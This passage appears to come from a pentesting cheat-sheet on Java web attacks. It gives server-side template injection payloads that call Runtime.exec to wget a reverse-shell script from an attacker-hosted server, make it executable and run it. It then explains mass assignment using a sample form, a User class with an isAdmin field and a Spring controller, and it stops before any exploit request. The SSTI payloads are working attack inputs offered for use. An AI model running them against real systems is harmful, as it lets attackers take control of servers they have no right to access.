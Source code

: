{% tab title="Exploit" %}
If there is an input vulnerable to SSTI,we may gain a reverse shell as follow.

First generate the reverse shell, and host it on your webserver. Then we can send following payloads in the vulnerable input.

```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://<local-ip>:8000/rev.sh")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./rev.sh")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./rev.sh")}
```
{% endtab %}
{% endtabs %}

#### Mass Assignment

{% tabs %}
{% tab title="Exploit" %}
Software frameworks sometime allow developers to automatically bind HTTP request parameters into program code variables or objects to make using that framework easier on developers. This can sometimes cause harm.

This functionality becomes exploitable when:

* Attacker can guess common sensitive fields.
* Attacker has access to source code and can review the models for sensitive fields.
* AND the object with sensitive fields has an empty constructor.

Suppose there is a form for editing a user's account information:

```html
<form>
     <input name="userId" type="text">
     <input name="password" type="text">
     <input name="email" text="text">
     <input type="submit">
</form>
```

Here is the object that the form is binding to:

```java
@Data
public class User {
   private String userid;
   private String password;
   private String email;
   private boolean isAdmin;
}
```

Here is the controller handling the request:

```java
@RequestMapping(value = "/addUser", method = RequestMethod.POST)
public String submit(User user) {
   userService.add(user);
   return "successPage";
}
```

